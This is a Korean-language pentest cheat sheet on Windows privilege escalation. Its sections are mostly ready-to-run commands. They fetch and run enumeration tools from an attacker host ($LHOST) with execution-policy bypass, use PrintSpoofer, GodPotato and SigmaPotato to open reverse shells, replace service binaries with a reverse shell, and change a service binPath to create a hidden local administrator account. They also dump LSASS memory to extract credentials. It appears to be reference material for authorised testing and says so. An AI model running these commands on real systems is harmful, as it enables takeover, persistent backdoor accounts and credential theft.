

> 윈도우 권한상승은 "이미 있는 설정 오류"를 찾는 일입니다. 자동 열거로 후보를 모으고 → 쓰기 가능한 서비스/경로나 위험한 토큰 특권을 악용합니다. 예시의 사용자·경로·IP는 전부 플레이스홀더입니다.

## 개념



- **열거 먼저**: winPEAS·PrivescCheck·PowerUp로 전수 조사.
- **서비스 악용**: 서비스가 `LocalSystem`으로 돌고 그 바이너리/설정에 쓰기 권한이 있으면 재시작으로 SYSTEM 실행.
- **토큰 특권**: `SeImpersonatePrivilege`가 있으면 Potato 계열로 SYSTEM 토큰 획득.

## 공격·우회 구문

허가된 범위에서만. 식별자는 전부 예시입니다.

### 자동 열거

```powershell
# 파일 내려받아 실행(HTTP 서버는 내 쪽 $LHOST)
iwr -uri http://$LHOST/winPEASx64.exe -Outfile peas.exe ; .\peas.exe

# PowerUp
iwr -uri http://$LHOST/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass ; . .\PowerUp.ps1 ; Invoke-AllChecks

# PrivescCheck
. .\PrivescCheck.ps1 ; Invoke-PrivescCheck
```

핵심 키워드만 뽑아 읽으면 빠릅니다.

```powershell
Select-String -Path .\peas.txt -Pattern "SeImpersonate|Unquoted|AllAccess|AlwaysInstallElevated" -Context 1,3
```

### 토큰 특권 확인

```cmd
whoami /priv
```

`SeImpersonatePrivilege`가 Enabled면 Potato 계열 후보입니다.

```powershell
# 리버스 셸(내 쪽 $LHOST:$LPORT 리스너 필요)
.\PrintSpoofer64.exe -i -c reverse.exe
.\SigmaPotato.exe --revshell $LHOST $LPORT
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

> 판단 포인트: Potato는 OS 버전·.NET 버전에 민감합니다. 하나가 안 되면 PrintSpoofer ↔ GodPotato ↔ SigmaPotato를 바꿔 가며 시도합니다. 서비스 종류에 따라 Print Spooler 의존 여부가 갈립니다.

### 서비스 악용 — 쓰기 가능 서비스

```powershell
# PowerUp가 짚어 준 서비스
Get-ModifiableServiceFile
Get-UnquotedService

# 바이너리 교체 후 재시작(LocalSystem으로 실행)
sc.exe stop $SVC
copy .\reverse.exe "C:\Path\To\service.exe"
sc.exe start $SVC
```

`binPath` 변경이 가능하면 서비스 시작 한 번으로 관리자 계정을 만들 수도 있습니다.

```cmd
sc.exe config $SVC binPath= "cmd /c net user svc_adm Password123! /add && net localgroup administrators svc_adm /add"
sc.exe start $SVC
```

> 판단 포인트: 서비스를 건드릴 땐 **원복 계획**을 먼저 적어 둡니다 — 교체 전 원본 바이너리를 백업하고, 끝나면 되돌립니다. 실 서비스를 망가뜨리면 보고 가치가 떨어집니다.

### 자격증명·메모리

```powershell
# LSASS 덤프 → 분석은 오프라인(pypykatz)
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

```bash
pypykatz lsa minidump lsass.dmp
```

## 함께 보기

- [윈도우 권한 상승](/notes/windows-privilege-escalation/)
- [Active Directory 공격 도구 치트시트](/notes/active-directory-cheatsheet/)
- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)

## 참고 자료

- [MITRE ATT&CK: Access Token Manipulation (T1134)](https://attack.mitre.org/techniques/T1134/)
- [MITRE ATT&CK: Hijack Execution Flow — Services (T1574)](https://attack.mitre.org/techniques/T1574/)
- [Microsoft: Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
